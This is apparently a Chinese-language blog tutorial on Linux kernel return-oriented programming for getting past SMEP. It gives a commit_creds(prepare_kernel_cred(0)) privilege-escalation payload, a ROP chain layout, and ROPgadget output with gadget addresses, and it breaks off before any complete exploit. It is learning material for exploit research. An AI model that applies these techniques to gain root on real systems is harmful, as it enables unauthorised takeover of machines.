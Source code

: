 ```yaml
---
title: Linux Kernel ROP
date: 2017-08-06 19:47:38
tags:
- kernel rop
categories:
- kernel_exploit
---
```


SMEP(Supervisor Mode Execution Protection)的绕过方法一是直接修改CR4的值，二是直接在内核ROP(有点难)。修改CR4最终还是会用到ROP，所以还是先研究下内核ROP。

## Intro
内核的ROP跟用户空间的ROP没太大区别，差别很小，需要注意的是内核传参一般是通过寄存器而不是栈。我们在实验中通过ROP在内核中执行下面的函数(privilege escalation)。虽然实际中不会有这么简单，但是我们首先可以通过ROP来改变CR4的值来关闭SMEP，然后就可以在用户空间执行payload提权了。

```c
void __attribute__((regparm(3))) payload() {
        commit_creds(prepare_kernel_cred(0));
}
```
一般来说，rop chain是如下情况：
```
|----------------------|
| pop rdi; ret         |<== low mem
|----------------------|
| NULL                 |
|----------------------|
| addr of              |
| prepare_kernel_cred()|
|----------------------|
| mov rdi, rax; ret    |
|----------------------|
| addr of              |
| commit_creds()       |<== high mem
|----------------------|
```
因为vmlinux文件过大，每次用ROPgadget都要花很长时间，所以就一次性把所有的gadget都写到一个文件中：
```
ROPgadget --binary vmlinux > ropgadget
```
但是在vmlinux找不到mov rdi, rax; ret这个gadget，只找到了如下的gadget：
```shell
w0lfzhang@w0lfzhang666:~/Desktop/kernel_exploit/examples/ROP$ grep ': pop rdi ; ret' ropgadget 
0xffffffff81016bc5 : pop rdi ; ret

w0lfzhang@w0lfzhang666:~/Desktop/kernel_exploit/examples/ROP$ grep ': pop rdx ; ret' ropgadget 
0xffffffff810e00d1 : pop rdx ; ret

w0lfzhang@w0lfzhang666:~/Desktop/kernel_exploit/examples/ROP$ grep 'mov rdi, rax' ropgadget
0xffffffff8118e3a0 : mov rdi, rax ; call r10
0xffffffff8142b6d1 : mov rdi, rax ; call r12
0xffffffff8130217b : mov rdi, rax ; call r14
0xffffffff81d48ba6 : mov rdi, rax ; call r15
0xffffffff810d5f34 : mov rdi, rax ; call r8
0xffffffff8117f534 : mov rdi, rax ; call r9
0xffffffff8133ed6b : mov rdi, rax ; call rbx
0xffffffff8105f69f : mov rdi, rax ; call rcx
0xffffffff810364bf : mov rdi, rax ; call rdx
```
其中的vmlinux文件是由[extract-vmlinux](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux)解压boot/vmlinuz*(本身是压缩的内核文件)文件得到的：
```shell
```